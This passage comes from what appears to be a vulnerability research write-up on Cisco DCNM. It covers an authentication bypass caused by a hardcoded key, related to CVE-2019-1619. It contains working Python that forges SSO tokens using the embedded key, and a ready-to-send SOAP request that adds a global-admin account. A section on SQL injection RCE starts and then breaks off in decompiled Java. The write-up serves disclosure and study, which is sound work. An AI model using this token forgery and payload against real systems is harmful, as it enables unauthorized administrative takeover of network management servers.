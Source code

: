 We can see whats happening, we can control all the elements to forge our own token and then a hardcoded key is used to generate the `ssoToken`, meaning that we can bypass authentication. If this looks familiar to you, then you are probably thinking of [CVE-2019-1619](https://github.com/pedrib/PoC/blob/master/advisories/cisco-dcnm-rce.txt#L42) which Pedro found.

Here is the code I used to generate the sso token.

```py
import md5
import base64
def gen_ssotoken():
    timestamp = 9999999999999  # we live forever
    username = "hax"           # doesn't even need to exist!
    sessionid = 1337           # doesn't even need to exist!
    d = "%s%d%dPOsVwv6VBInSOtYQd9r2pFRsSe1cEeVFQuTvDfN7nJ55Qw8fMm5ZGvjmIr87GEF" % (username, sessionid, timestamp)
    return "%d.%d.%s.%s" % (sessionid, timestamp, base64.b64encode(md5.new(d).digest()), username)
```

Using this bug, we can send a SOAP request to the `/DbAdminWSService/DbAdminWS` endpoint and add a global admin user that will give us access to all interfaces!

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:ssoToken xmlns:m="http://ep.jaxws.dcbu.cisco.com/">1337.9999999999999.PxU+ahyOPP9L22+K4u1+6g==.hax</m:ssoToken>
    </SOAP-ENV:Header>
    <soapenv:Body>
        <ep:addUser>
            <userName>hacker</userName>
            <password>Hacked123</password>
            <roleName>global-admin</roleName>
            <enablePwdExpiration>false</enablePwdExpiration>
        </ep:addUser>
    </soapenv:Body>
</soapenv:Envelope>
```

[ret2toc](#table-of-contents)

### HostEnclHandler getVmHostData SQL Injection Remote Code Execution Vulnerability

Inside of the `com.cisco.dcbu.jaxws.san.ep.DbInventoryWS` class we see the following code.

```java
/*      */ @Remote({DbInventorySEI.class})
/*      */ @SOAPBinding(style = SOAPBinding.Style.RPC, use = SOAPBinding.Use.LITERAL)
/*      */ @HandlerChain(file = "../../ep/fms-jaxws-handlers.xml")
/*      */ @WebContext(contextRoot = "/DbInventoryWSService", urlPattern = "/DbInventoryWS")
/*      */ @WebService(name = "DbInventoryWS", serviceName = "DbInventoryService", endpointInterface = "com.cisco.dcbu.jaxws.san.ep.DbInventorySEI")
/*      */ @Stateless
/*      */ public class DbInventoryWS
/*      */   implements DbInventorySEI
/*      */ {
/*      */
/*      */   //...
/*      */
/*      */   @WebMethod(operationName = "getVmHostData")
/*      */   @WebResult(name = "result", partName = "result")
/*      */   public VmDO[] getVmHostData(DbFilterDO dbFilter, int startIdx, int recordSize, boolean isHost) throws SanServiceException {
/*      */     try {
```